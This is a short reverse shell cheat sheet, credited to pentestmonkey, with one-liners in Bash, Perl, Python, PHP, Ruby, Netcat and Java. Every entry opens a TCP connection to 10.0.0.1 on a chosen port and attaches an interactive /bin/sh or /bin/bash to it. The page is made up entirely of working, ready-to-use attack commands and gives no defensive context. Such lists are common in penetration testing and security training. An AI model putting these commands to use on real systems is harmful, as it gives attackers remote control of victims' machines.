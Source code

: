 ## Reverse shell cheat sheet  
  
Source: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  
  
### Bash  
`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1  `
  
### PERL  
`perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  `
  
### Python  
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  `
  
### PHP  
`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'  `
  
### Ruby  
`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  `
  
### Netcat  
`nc -e /bin/sh 10.0.0.1 1234`  
or  
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f  `
  
### Java  
    r = Runtime.getRuntime()  
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])  
    p.waitFor()  
  
  
  
  
